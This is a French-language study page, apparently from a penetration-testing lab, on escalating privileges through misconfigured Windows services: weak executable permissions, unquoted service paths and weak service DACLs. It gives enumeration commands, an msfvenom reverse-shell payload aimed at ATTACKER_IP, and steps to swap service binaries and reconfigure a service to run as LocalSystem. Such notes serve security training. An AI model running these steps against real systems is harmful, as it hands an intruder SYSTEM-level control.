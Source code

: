 > Abuser des mauvaises configurations du service

De manière générale, il est peu probable que les services Windows de base soient vulnérables à quoi que ce soit - les services installés par l'utilisateur sont beaucoup plus susceptibles d'avoir des trous.

Rechercher des services autres que ceux par défaut :

```sh
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```

Vérifions les permissions sur le répertoire

```c
Get-Acl -Path 'C:\Program Files (x86)\System Explorer' | format-list
```

#Context
Chaque service sur une machine Windows aura un exécutable associé qui sera exécuté par le SCM chaque fois qu'un service est démarré.

Afficher la configuration d'un service

```c
sc qc <SERVICE_NAME>
```

Les paramètres les plus important ici sont le :
- `BINARY_PATH_NAME` (Le chemin d'executable du fichier) 
- `SERVICE_START_NAME` (le compte utilisé pour exécuter le service)

Pour vérifier les permissions du fichier ou dossiers sur l'exécutable, on utilise `icacls`:

```c
icacls C:\Windows\system32\svchost.exe
```

Les autorisations les plus importantes sont :

```c
BUILTIN\User: (F => accès complet)
# Cela signifie que nous pouvons modifier le fichier et insérer la charge utile de notre choix.

Everyone: (M => modification)
# Cela signifie que nous pouvons écraser le fichier avec n'importe quelle charge utile de notre choix.

BUILTIN\Users:(AD) (WD)
# Permettant à l'utilisateur de créer respectivement des sous-répertoires et des fichiers.
```

Charge utile : 

```sh
msfvenom --platform windows -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o WService.exe
```

Dans un scénario normal, vous devrez probablement attendre le redémarrage du service,

```c
sc stop <SERVICE_NAME>
sc start <SERVICE_NAME>
```

# Insecure Permissions on Service Executable 
Autorisations non sécurisées sur l'exécutable du service

> [!NOTE] L'exécutable associé au service n'a pas d'argument 
> Exemple: `C:\Windows\system32\svchost.exe -k apphost`

Si l'exécutable associé à un service dispose de faibles autorisations permettant à un attaquant de le modifier ou de le remplacer, l'attaquant peut obtenir trivialement les privilèges du compte du service.

1. Afficher la configuration d'un service
2. Vérifier les autorisations sur l'exécutable avec `icacls`
3. Regarder les autorisations utile (M)
4. Génerer un payload et démarrons un écouteur

Une fois payload sur le serveur Windows, nous procédons au remplacement de l'exécutable du service par notre charge utile.

```c
cd C:\..\Service-path\

move service-name.exe service-name.exe.bkp

move c:\temp\payload.exe C:\...\Service-path\service-name.exe

icapls service-name.exe /grant Everyone:F
```

Ici la charge utile portera le meme nom que le SERVICE vulnerable

5. Redémarrer le service et obtenir un shell

---
# Unquoted Service Paths 
Chemins de service non cités

Lorsque nous ne pouvons pas écrire directement dans les exécutables du service comme dans [[#Insecure Permissions on Service Executable]], et que le service est configuré pour pointer vers un exécutable **«non cité `sans guillemets`»**

Nous entendons que le chemin de l'exécutable associé n'est pas correctement mis entre guillemets pour tenir compte des espaces sur le nom du dossier.

> Si on crée l'un des exécutables recherchés avant l'exécutable du service attendu, il peut forcer le service à exécuter un exécutable arbitraire.



> [!NOTE] Rappel
> La plupart des exécutables du service seront installés sous `C:\Program Files`ou `C:\Program Files (x86)`par défaut, ce qui n'est pas accessible en écriture aux utilisateurs non privilégiés. Cela empêche l’exploitation de tout service vulnérable.

1. Afficher la configuration d'un service
2. Vérifier les autorisations sur l'exécutable avec `icacls`
3. Regarder les autorisations utile (AD) et (WD)
4. Génerer un payload et démarrons un écouteur

Une fois la charge utile présente sur le serveur, déplacez-la vers l’un des emplacements où un piratage pourrait se produire.

Exemple de chemin vulnerable :

```c
C:\MyPrograms\Disk Sorter Entreprise\bin\dsksrs.exe
```

5. Placer le payload dans le chemin vulnerable

```c
move payload.exe C:\MyPrograms\Disk.exe 

icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

6. Redémarrer le service et obtenir un shell

---
# Insecure Service Permissions 
Autorisations de service non sécurisées

Si la DACL du service (et non la DACL exécutable du service ) vous permet de modifier la configuration d'un service, vous pourrez reconfigurer le service. Cela vous permettra de pointer vers n'importe quel exécutable dont vous avez besoin et de l'exécuter avec n'importe quel compte de votre choix, y compris **SYSTEM** lui-même.

1. Vérifier la DACL d'un service : 

```c
accesschk64.exe -qlc <SERVICE_NAME>
```

Verifiier si le groupe `BUILTIN\\USER` dispose de l'autorisation `SERVICE_ALL_ACCESS` 

2. Génerer un payload et démarrons un écouteur

Accorder les autorisations à tout le monde pour exécuter votre charge utile

```c
icacls C:\Temp\payload.exe /grant Everyone:F
```

Modifier l'exécutable et le compte associés au service : 

```c
sc config THMService binPath="C:\Temp\payload.exe" obj=LocalSystem
```

3. Redémarrer le service et obtenir un shell